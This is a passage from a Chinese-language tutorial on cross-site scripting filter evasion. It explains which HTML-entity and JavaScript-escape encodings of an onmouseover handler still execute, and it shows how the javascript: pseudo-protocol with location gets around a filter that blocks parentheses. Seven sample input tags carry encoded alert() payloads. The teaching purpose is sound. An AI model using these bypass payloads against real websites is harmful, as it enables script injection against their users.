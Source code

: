 ```html
<br>
```
效果如图：
![encoding1](/imgs/encoding1.png)
哪些能成功，哪些不能？
1. 可以，正常语句，无编码；
2. 不可以，随机加入了转义字符，这个实际上是为了区别于JS引擎对 `\` 的处理；
3. 可以，对 `onmouseover=` 内的任意字符可以做html编码；
4. 可以，JS的字符编码，只能用在字符串中，不能用于符号、变量名或者函数名。
5. 不可以， 这里不可以对 `alert` 的左右括号做JS编码。

&#8195;&#8195;那假如过滤了 `( ) & \ < > '` ，而没有过滤双引号 `"`，该怎么构造呢？实体编码不行，JS编码又无法代替括号，我们可以想办法把 `alert()` 的括号变成字符串，用location加javascript伪协议。

### javascript伪协议
&#8195;&#8195;其实 `location` 对象后面本来应该是一个URl字符串，但是我们可以使用  `javascript:` 伪协议让字符串执行JS，可拷贝如下代码本地调试：
```html
<br>
<input name="a" value="onmouseover=location=&#34;javascript:alert(1)&#34;" 
onmouseover=location="javascript:alert(1)" style="width:500px"><br>
<br>
<input name="b" value="onmouseover=location=&#34;\javascript:\alert\(2\)/\/&#34;"
onmouseover=location="\javascript:\alert\(2\)/\/" style="width:500px"><br>
<br>
<input name="c" value="onmouseover&#38;&#35;61;location=&#34;javascript:alert(3)&#34;" 
onmouseover&#61;location="javascript:alert(3)" style="width:500px"><br>
<br>
<input name="d" value="onmouseover=locatio&#38;&#35;110;&#38;&#35;61;&#38;&#35;34;&#38;&#35;106;avascript&#38;&#35;58;aler&#38;&#35;116;&#38;&#35;x28;4)&#34;" 
onmouseover=locatio&#110;&#61;&#34;&#106;avascript&#58;aler&#116;&#x28;4)" style="width:500px"><br>
<br>
<input name="e" value="onmouseover=location=&#34;\u006aavascrip\x74\u003aaler\u0074\x285%29&#34;" 
onmouseover=location="\u006aavascrip\x74\u003aaler\u0074\x285%29" style="width:500px"><br>
<br>
<input name="f" value="onmouseover=location=\u0022javascript:alert(6)&#34;"
onmouseover=location=\u0022javascript:alert(6)" style="width:500px"><br>
<br>
<input name="g" value="onmouseover=location=&#34;javas&#34;+&#38;&#35;34;cript:alert\u00287)&#34;" 
onmouseover=location="javas"+&#34;cript:alert\u00287)" style="width:500px"><br>
```